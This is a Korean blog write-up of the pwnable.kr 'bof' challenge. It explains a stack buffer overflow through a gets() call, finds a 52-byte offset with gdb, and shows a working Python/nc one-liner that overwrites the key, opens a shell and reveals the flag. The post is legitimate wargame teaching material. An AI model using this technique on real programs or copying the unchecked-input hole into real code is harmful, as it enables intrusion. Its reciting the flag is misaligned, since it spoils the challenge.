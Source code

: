 ```yaml
---
layout: post
title: Toddler's Bottle - bof 문제풀이
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Pwnable.kr
---
```


`Pwnable.kr` 문제에서 3번째 문제인 `bof` 문제를 풀어보았다.  

이번 문제는 로컬 문제가 아니라 리모트로 접속 해 풀어야 하는 문제이다.  

<!--more-->

때문에 `bof` 문제에서는 `bof` 실행파일과 `bof.c`라는 소스코드를 다운로드 할 수 있는 링크와 리모트로 접속할 수 있는 정보를 제공해준다.  

* [http://pwnable.kr/bin/bof](http://pwnable.kr/bin/bof)
* [http://pwnable.kr/bin/bof.c](http://pwnable.kr/bin/bof.c)
* nc pwnable.kr 9000

`bof.c`의 소스코드를 확인해 보면 아래와 같다.  

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

`main` 함수에서는 `0xdeadbeef`를 인자로 해 `func` 함수를 호출한다.  

`func` 함수에서는 먼저 `32 byte` 의 char 형 변수인 `overflowme`를 선언하고, 해당 변수에 `gets` 함수를 통해 입력을 받아 저장한다.  

* gets 함수
	* 함수 원형 : gets(char * str)
	* 표준 입력에서 문자열을 가져온다.
	* 이 때, 개행 문자(\n)이나 파일 끝(EOF)를 만나기 전까지 가져오는데, 크기를 따로 검사하지 않기 때문에 `overflow` 가 일어날 수 있다.

이 후, 만약 `func` 함수에 인자로 넘어 온 `key`의 값이 `0xcafebabe`와 같다면 `system` 함수를 통해 `/bin/sh`를 실행시켜 준다.  

`func` 함수에서 `gets` 함수를 통해 문자열을 입력 받는데, 문자열의 길이를 검사하지 않는다.  

때문에 `overflow`를 발생시킬 수 있다.  

![]({{ site.baseurl }}/images/pwnable.kr/bof/bof_01.PNG)  

위의 그림은 `func` 함수를 호출했을 때의 `stack` 모습니다.  

`func` 함수를 호출하면 스택에는 `func` 함수의 인자인 `key(0xdeadbeef)` 스택에 저장하고, `return address`와 `SFP`를 차례로 스택에 저장한 후, `func` 함수에서 사용 할 지역 변수인 `overflowme`를 위한 공간을 할당한다.  

이 때, `overflowme`는 `32 byte`의 공간을 할당받았지만 `gets` 함수에서 문자열의 길이를 확인하지 않아 아래와 같이 `overflow`가 발생할 수 있다.  

![]({{ site.baseurl }}/images/pwnable.kr/bof/bof_02.PNG)  

`overflowmw`에 충분한 값을 입력한 후, `func` 함수의 인자인 `key`의 값이 저장된 위치에 `0xcafebabe`를 덮어 쓴다면 `system("/bin/sh")`가 실행되며 쉘을 얻을 수 있다.  

문제를 풀기 위해선 `overflowme`와 `key` 사이의 거리를 알아야 한다.  

이를 알기 위해 `gdb`를 사용했다.  

![]({{ site.baseurl }}/images/pwnable.kr/bof/bof_03.PNG)

먼저 `key`의 값을 비교하는 부분인 `0x56555654 <+40>`에 `break point`를 걸고 `32 byte` 만큼을 입력 해 보았다.  

![]({{ site.baseurl }}/images/pwnable.kr/bof/bof_04.PNG)

실행 후 확인해 본 결과 아래와 같았다.  

![]({{ site.baseurl }}/images/pwnable.kr/bof/bof_05.PNG)

`0xffffd5cc` 부터 `overflowme`가 시작되며, `0xffffd600` 위치에 `key`의 값인 `0xdeadbeef`가 저장되어 있는 것을 알 수 있다.  

두 변수 간의 거리는 다음과 같다.  

* 0xffffd600 - 0xffffd5cc = 0x34 (= 52)

즉, 두 변수는 `52 byte` 만큼 떨어져 있다.  

따라서 쉘을 얻기 위해서는 `52 byte` 만큼의 값을 입력하고, 이 후 `0xcafebabe`를 입력 해 주면 `overflow`가 발생하며 `func`의 인자인 `key`의 값을 덮어쓸 수 있을 것이다.  

이를 실행해본 결과 다음과 같이 쉘을 얻을 수 있었다.  

파일을 확인해 본 결과 `flag` 파일이 있어, 이를 실행했더니 `flag`를 얻을 수 있었다.  

![]({{ site.baseurl }}/images/pwnable.kr/bof/bof_06.PNG)

```
ccoma@vultr:~$ (python -c 'print "a"*52+"\xbe\xba\xfe\xca"';cat) | nc pwnable.kr 9000
ls
bof
bof.c
flag
log
log2
super.pl
cat flag
daddy, I just pwned a buFFer :)
```

```
daddy, I just pwned a buFFer :)
```
